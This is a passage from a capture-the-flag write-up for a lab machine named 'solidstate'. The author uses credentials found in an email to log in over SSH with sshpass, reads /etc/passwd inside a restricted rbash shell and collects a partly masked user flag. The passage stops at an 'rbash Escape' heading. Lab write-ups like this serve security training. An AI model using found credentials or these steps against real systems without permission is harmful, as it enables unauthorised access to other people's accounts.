     username: mindy
    pass: P@55W0rd1!2@

    Respectfully,
    James

    .



mailadmin, despite the juicy username, doesn't have any email.

### SSH as mindy

I can use the creds from the email to connect over SSH as mindy:



    root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
    Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Wed Apr 29 21:12:15 2020 from 10.10.14.47
    mindy@solidstate:~$



As the email suggested, the shell is limited:



    mindy@solidstate:~$ whoami
    -rbash: whoami: command not found
    mindy@solidstate:~$ id
    -rbash: id: command not found



`/etc/passwd` shows that mindy's shell is `rbash`:



    mindy@solidstate:~$ cat /etc/passwd
    ...[snip]...
    mindy:x:1001:1001:mindy:/home/mindy:/bin/rbash



Even in `rbash`, I can grab `user.txt`:



    mindy@solidstate:~$ ls
    bin  user.txt
    mindy@solidstate:~$ cat user.txt 
    914d0a4e************************



## rbash Escape
